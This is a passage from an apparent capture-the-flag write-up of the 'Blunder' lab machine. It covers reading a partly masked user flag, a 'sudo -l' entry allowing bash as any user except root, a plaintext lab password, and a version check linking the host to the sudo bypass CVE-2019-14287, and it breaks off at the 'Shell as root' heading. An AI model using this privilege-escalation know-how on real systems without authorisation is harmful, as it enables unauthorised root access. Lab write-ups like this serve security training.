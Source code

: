 ```shell
hugo@blunder:~$ cat user.txt
cat user.txt
6633fe5a84ee57d*****************

```
## Elevating Priv: hugo -> root

### Enumeration

Checking if our user has any special privileges using `sudo -l` results something very interesting:

```shell
hugo@blunder:/var/www$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
It means user Hugo can run `/bin/bash` as any user except root, Let's test it out:

```shell
hugo@blunder:~$ sudo -u shaun /bin/bash
sudo -u shaun /bin/bash
Password: Password120

shaun@blunder:/home/hugo$ exit

hugo@blunder:~$ sudo -u root /bin/bash
sudo -u root /bin/bash
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
```
### CVE-2019-14287

Last year in 2019, a sudo vulnerability was discovered which allowed a user to execute command as root even if the user was disallowed to do so.

> The sudo vulnerability CVE-2019-14287 is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access.

Sudo version prior to 1.8.28 are impacted by this vulnerability.

On checking the `sudo` version of our machine, We can see the version is `1.8.25` which should be vulnerable:

```shell
hugo@blunder:/var/www$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
### Shell as root
